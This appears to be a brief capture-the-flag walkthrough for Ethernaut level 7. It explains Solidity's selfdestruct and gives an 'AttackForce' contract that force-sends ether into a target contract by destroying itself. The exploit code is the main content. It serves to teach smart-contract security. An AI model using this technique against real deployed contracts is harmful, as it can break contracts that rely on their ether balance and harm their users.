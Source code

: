 # Day 7 - Force send ether

## selfdestruct

`selfdestruct` is currently 1 of 3 methods for your contract to receive ether

- Method 1 — via payable functions

- Method 2 — receiving mining reward: contract addresses can be designated as the recipients of mining block rewards

- Method 3 — from a destroyed contract: selfdestruct lets you designate a backup address to receive the remaining ethers from the contract you are destroying.

## Solution

```js
pragma solidity ^0.6.0;

contract AttackForce {
    address payable forwardAddress;

    // set ethernaut contract address as forward address
    constructor(address payable _forwardAddress) public payable {
        forwardAddress = _forwardAddress;
    }

    function collect() public payable returns(uint256) {
        return address(this).balance;
    }

    function selfDestruct() public {
        selfdestruct(forwardAddress);
    }
}
```

## [Reference](https://medium.com/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57)
